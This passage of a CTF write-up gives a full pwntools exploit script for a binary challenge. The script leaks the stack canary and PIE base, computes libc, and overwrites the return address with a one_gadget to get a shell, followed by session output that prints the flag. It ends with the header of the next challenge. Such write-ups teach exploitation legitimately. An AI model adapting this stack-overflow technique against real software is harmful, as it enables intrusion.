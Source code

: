 Piecing all the parts together gives the full exploit script
```python
canary_offset = 40
key = 0x123456789abcdef1
libc = exe.libc

io = start()
io.recvuntil(b"me?")
io.send(b"A"*40)
io.recvline()
leak = io.recvline()

canary = int(u64(leak[40:48].rstrip().ljust(8, b"\x00")))
main = int(u64(leak[48:54].rstrip().ljust(8, b"\x00")))-0xe8
exe.address = main - exe.sym.main
libc.address = (canary ^ key) - 0x64e40

log.success(f"Piebase @ {hex(exe.address)}")
log.success(f"Canary: {hex(canary)}")
log.success(f"Libc @ {hex(libc.address)}")

io.recvuntil(b"again.")
payload = b"A"*canary_offset
payload += pack(canary)
payload += pack(0x0)
payload += pack(libc.address + 0x4f2a5)

io.send(payload)
io.interactive()
```
{: .nolineno file="exploit.py" }

Which gives us shell and the flag

```bash
$ python3 exploit.py
[+] Opening connection to challenge.nahamcon.com on port 30861: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{e87923d7cd36a8580d0cf78656d457c6}
```
{: .nolineno }


## Nahm Nahm Nahm
> Points: 369 <br/>
> Difficulty: Medium <br/>
> Author: WittsEnd
>
> Me hungry for files!
>
> For your convenience, pwntools, nano and vim are installed on this instance.
>
> Attachments: nahmnahmnahm
